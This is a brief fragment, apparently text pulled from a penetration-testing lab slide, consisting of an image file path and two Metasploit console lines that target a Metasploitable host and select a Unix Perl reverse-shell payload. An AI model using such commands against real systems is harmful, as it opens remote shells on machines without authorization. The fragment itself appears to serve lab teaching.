

#
set RHOSTS [Metasploitable IP]
set PAYLOAD cmd/unix/reverse_perl